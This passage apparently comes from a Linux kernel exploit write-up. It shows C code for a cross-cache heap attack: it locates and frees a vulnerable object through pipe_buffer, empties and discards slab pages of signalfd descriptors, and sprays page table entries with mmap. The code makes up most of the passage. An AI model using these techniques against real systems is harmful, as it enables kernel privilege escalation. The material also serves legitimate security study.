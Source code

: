 We are able to search the `pipe_buffer` object to close it and avoid affecting signalfd object.

```C
/* locating vulnerable object (cross cache) */
int c;
for (int j = 0; j < MAX_PIPES; j++) {
	int n = read(pipefd[j][0], &c, 4);
	
	if (n < 0 || j != c) {
		printf("[+] pipe fd found at %dth\n", j);
		pos = j;
		break;
	}
}

if (pos == -1) {
	puts("[-] Exploit failed :(");
	exit(0);
}

puts("[+] free vulnerable object (from pipe_buffer)");

close(pipefd[pos][0]); // free vulnerable object
close(pipefd[pos][1]);
```

And empty the victim page on beast mode (but most useful).

```C
/* emptying the page of the fd vulnerable */
for (i = 0; i < (CPU_PARTIAL * OBJS_PER_SLAB); i++) {
	close(fd_cross[i]);
}

/* discard slab */
for (i = 0; i < MAX_SIGNAL; i++) {
	if ((offset + i) != fd_idx) {
		close(fd_cross[offset + i]);
	}
}
```

## Spray PTE (Page Table Entry)

If we read [this](https://offlinemark.com/demand-paging/) interesting article, we realize that we need to call mmap first and later access to the pages. We are going to alloc 32 page tables (a page table 512 * 4096 = 2MB).

```C
/* mmap spray pte */
uint64_t addr = 0x20000;
for (uint32_t i = 0; i < NUM_TABLE; i++) {
	for (uint32_t j = 0; j < NUM_PTE; j++) {
		if ((map[i][j] = mmap((void *) addr + (i * 0x200000) + (j * 0x1000), 0x1000, PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_SHARED|MAP_FIXED, -1, 0)) == MAP_FAILED) {
			perror("[-] mmap()");
			exit(0);
		}
	}
}
```
